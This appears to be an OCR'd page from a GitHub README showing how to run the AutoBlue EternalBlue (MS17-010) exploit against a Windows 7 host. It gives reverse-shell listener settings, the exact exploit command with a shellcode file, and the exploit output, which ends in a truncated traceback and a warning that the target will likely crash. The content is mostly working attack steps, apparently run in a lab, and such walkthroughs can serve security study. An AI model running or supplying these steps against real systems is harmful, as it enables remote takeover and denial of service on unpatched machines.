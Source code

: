 ```bash
LHOST for reverse connection:
10.0.2.4
LPORT for x64 reverse connection:
44444
LPORT for x86 reverse connection:
44445
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload
0
Starting listener (staged)...
Starting postgresql (via systemctl): postgresql.service.
```
#### Exploit
Once it's setup and you see the msfconsole, open another terminal, cd into the repo dir and run `python eternalblue_exploit7.py <target IP> shellcode/sc_all.bin`
```bash
eternalblue_exploit7.py 10.0.2.6 shellcode/sc_all.bin        
shellcode size: 2307
numGroomConn: 13
Target OS: Windows 7 Ultimate 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/nmb.py", line 984, in non_polling_read
    received = self._sock.recv(bytes_left)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^
TimeoutError: timed out

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/hakcypuppy/blue/AutoBlue-MS17-010/eternalblue_exploit7.py", line 563, in <module>
   exploit(TARGET, s...
```
What will likely happen is *this will crash your target machine*: